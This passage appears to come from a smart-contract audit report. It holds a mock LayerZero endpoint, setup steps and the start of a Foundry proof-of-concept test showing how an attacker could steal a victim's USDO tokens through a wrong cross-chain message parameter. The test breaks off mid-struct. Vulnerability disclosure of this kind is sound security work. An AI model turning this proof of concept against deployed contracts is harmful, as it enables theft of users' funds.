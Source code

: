 ```solidity
    function send(
        MessagingParams calldata _params,
        address _refundAddress
    ) external payable  returns (MessagingReceipt memory receipt) {
        // DO NOTHING
    }

    /// @dev the Oapp sends the lzCompose message to the endpoint
    /// @dev the composer MUST assert the sender because anyone can send compose msg with this function
    /// @dev with the same GUID, the Oapp can send compose to multiple _composer at the same time
    /// @dev authenticated by the msg.sender
    /// @param _to the address which will receive the composed message
    /// @param _guid the message guid
    /// @param _message the message
    function sendCompose(address _to, bytes32 _guid, uint16 _index, bytes calldata _message) external {
         // DO NOTHING
        
    }
  
}

```

1. Import and deploy two mock endpoints in the `Usdo.t.sol` file
2. Change the inherited OApp in `Usdo.sol` ’s implementation so that the endpoint variable is not immutable and add a `setEndpoint()` function so that the endpoint configured in `setUp()` can be chainged to the newly deployed endpoints
3. Paste the following test insde `Usdo.t.sol` :

```solidity
function testVuln_stealUSDOFromATargetUserDueToWrongParameter() public {

        // Change configured enpoints

        endpoints[aEid] = address(mockEndpointV2A);
        endpoints[bEid] = address(mockEndpointV2B);

        aUsdo.setEndpoint(address(mockEndpointV2A));
        bUsdo.setEndpoint(address(mockEndpointV2B));

        
        
        deal(address(aUsdo), makeAddr("victim"), 100 ether);

        ////////////////////////////////////////////////////////
        //                 PREPARE MESSAGES                   //
        ////////////////////////////////////////////////////////

        // FINAL MESSAGE    A ---> B                  

        SendParam memory sendParamAToBVictim = SendParam({
            dstEid: bEid,
            to: OFTMsgCodec.addressToBytes32(makeAddr("attacker")),
            amountLD: 100 ether, // IMPORTANT: This must be set to the amount we want to steal
            minAmountLD: 100 ether,
            extraOptions: bytes(""),
            composeMsg: bytes(""),
            oftCmd: bytes("")
        });  
        MessagingFee memory feeAToBVictim = MessagingFee({
            nativeFee: 0,
            lzTokenFee: 0
```